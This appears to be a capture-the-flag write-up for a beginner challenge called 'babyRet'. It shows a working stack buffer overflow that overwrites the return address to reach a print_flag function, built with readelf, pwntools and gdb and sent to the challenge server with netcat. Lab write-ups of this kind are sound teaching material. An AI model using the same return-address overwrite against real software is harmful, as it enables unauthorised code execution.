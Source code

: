 # babyRet	

We are given a netcat connection, an executable an a .c file.

Looking at the .c file we can see that it might be vulnerable to a buffer overflow on the scanf function, we need to get to the print_flag function.

```
readelf -s ret0
```


> 68: 00000000004011b3    89 FUNC    GLOBAL DEFAULT   13 print_flag


We need to get to that address, we can use pwntools to get the address in the correct format.

```
from pwn import *
print(p32(vuln.symbols['print_flag']))
```

> b'\xb3\x11@\x00'

We also need to find how many characters are needed for the overflow, 24 seem to be the indicated. 

We can also play a little bit with gdb to see the addresses as we modify them, first we need to get the payload into a file 

```
python2 -c "from pwn import *; print 'A' * 24 + '\xb3\x11@\x00'" > test.txt
```

We break in main and run the file in gdb as 

```
(gdb) r < test.txt
```

We step in the file and see the frame to see if we correctly modified the rip register. 

```
(gdb) info frame
```

We can see that we are not quite right

> rip = 0x401259 in main (ret0.c:30); saved rip = 0x7f00004011b3

We only need to add more \x00 to the payload

```
python2 -c "from pwn import *; print 'A' * 24 + '\xb3\x11@\x00\x00\x00\x00'" | ./ret0
```

We got the dummy flag!

> What is your favorite food?
Cool.
wsc{Th0s3_p3sky_STACKS!!!}

## Flag

```
python2 -c "from pwn import *; print 'A' * 24 + '\xb3\x11@\x00\x00\x00\x00'" | nc 107.191.51.129 5000
```

> wsc{Th0s3_p3sky_STACKS!!!}

